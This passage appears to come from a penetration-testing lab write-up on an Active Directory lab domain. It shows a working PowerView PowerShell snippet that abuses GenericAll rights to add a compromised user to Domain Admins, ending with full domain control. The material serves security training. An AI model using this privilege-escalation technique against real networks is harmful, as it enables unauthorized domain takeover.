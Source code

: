 
### ACL Abuse: Domain Admin via PowerView

Now that we have credentials for a new one user, who has **GenericAll** over `Domain Admins` group, we first check their rights and add this user to the group:

![](screenshots/12.png)

```powershell
Import-Module .\PowerView.ps1

$SecPassword = ConvertTo-SecureString <password> -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\<domain_user>', $SecPassword)

Add-DomainGroupMember -Identity 'Domain Admins' -Members <domain_user_to_domain_admin> -Credential $Cred -Verbose
```

![](screenshots/13.png)

We now have full **domain admin** access.

![](screenshots/14.png)

